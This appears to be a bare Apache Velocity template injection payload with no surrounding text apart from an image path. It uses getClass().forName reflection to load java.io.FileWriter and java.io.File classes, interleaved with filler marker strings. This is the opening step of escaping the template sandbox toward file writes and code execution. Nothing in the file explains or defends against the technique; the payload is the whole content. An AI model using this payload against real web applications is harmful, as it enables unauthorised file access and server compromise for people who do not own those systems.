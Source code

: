 #set( $monkey = '888888888888888888888888=========99999999999999999999999' )
$monkey
#set ($e="exp")
#set ($a=$e.getClass().forName("java.io.FileWriter"))
#set ($ab=$e.getClass().forName("java.io.File"))
$a
$ab
$monkey
